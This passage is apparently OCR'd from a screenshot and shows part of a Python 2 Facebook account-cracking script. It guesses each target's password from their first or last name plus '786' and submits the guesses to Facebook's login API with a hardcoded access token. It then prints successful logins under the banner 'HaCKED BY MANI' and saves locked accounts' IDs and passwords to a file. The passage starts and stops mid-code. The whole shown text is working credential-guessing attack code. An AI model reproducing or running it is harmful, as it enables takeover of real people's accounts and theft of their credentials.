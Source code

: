 				                                                                           print '\x1b[1;96m[•⚔•] \x1b[1;96mPassword \x1b[1;96m✯ \x1b[1;97m' + pass7 + '\n'
				                                                                           cek = open("out/super_cp.txt", "a")
				                                                                           cek.write("ID:" +user+ " Pw:" +pass7+"\n")
				                                                                           cek.close()
				                                                                           cekpoint.append(user+pass7)           					
								                                       else:						
										                           pass8 = b['last_name'] + '786'											
			                                                                                   data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass8)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			                                                                                   q = json.load(data)												
			                                                                                   if 'access_token' in q:		
										                                   x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                                                                   z = json.loads(x.text)
				                                                                                   print '\x1b[1;96m[  ✓  ] \x1b[1;92mHaCKED BY MANI💉'											
				                                                                                   print '\x1b[1;96m[•⚔•] \x1b[1;92mName \x1b[1;92m    ✯ \x1b[1;92m' + b['name']											
				                                                                                   print '\x1b[1;96m[•⚔•] \x1b[1;92mID \x1b[1;92m      ✯ \x1b[1;92m' + user										
				                                                                                   print '\x1b[1;96m[•⚔•] \x1b[1;92mPassword \x1b[1;92m✯ \x1b[1;92m' + pass8 + '\n'											
				                                                                                   oks.append(user+pass8)
                                                                                                           else:
			                                                                                           if 'www.facebook.com' in q["error_msg"]:
				                                                                                       print '\x1b[1;96m[ ❥ ] \x1b[1;96mCP'
				                                                                                       print '\x1b[1;96m[•⚔•] \x1b[1;96mName \x1b[1;96m    ✯ \x1b[1;97m' + b['name']
				                                                                                       print '\x1b[1;96m[•⚔•] \x1b[1;96mID \x1b[1;96m      ✯ \x1b[1;97m' + user
				                                                                                       print '\x1b[1;96m[•⚔•] \x1b[1;96mPassword \x1b[1;96m✯ \x1b[1;97m' + pass8 + '\n'
				                                                                                       cek = open("out/super_cp.txt", "a")
				                                                                                       cek.write("ID:" +user+ " Pw:" +pass8+"\n")
				                                                                                       cek.close()
				                                                                                       cekpoint.append(user+pass8)   	
										                                   else:					
										                                       pass9 = b['first_name'] + '786'					
										                                       data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass9)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")				
										                                       q = json.load(data)				
										                                       if 'access_token' in q:		
		                                                                                                               x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                                                                               z = json.loads(x.text)
											                                       print '\x1b[1;96m[  ✓  ] \x1b[1;92mHaCKED BY MANI💉'			
											                                       print '\x1b[1;96m[•⚔•] \x1b[1;92mName \x1b[1;92m    ✯ \x1b[1;92m' + b['name']			
											                                       print '\x1b[1;96m[•⚔•] \x1b[1;92mID \x1b[1;92m      ✯ \x1b[1;92m' + user	
											                                       print '\x1b[1;96m[•⚔•] \x1b[1;92mPassword \x1b[1;92m✯ \x1b[1;92m' + pass9 + '\n'			
											                                       oks.append(user+pass9)
                                                                                                                       else:
			                                                                                                       if 'www.facebook.com' in q["error_msg"]:
				                                                                                                   print '\x1b[1;96m[ ❥ ] \x1b[1;96mCP'
				                                                                                                   print '\x1b[1;96m[•⚔•] \x1b[1;96mName \x1b[1;96m    ✯ \x1b[1;97m' + b['name']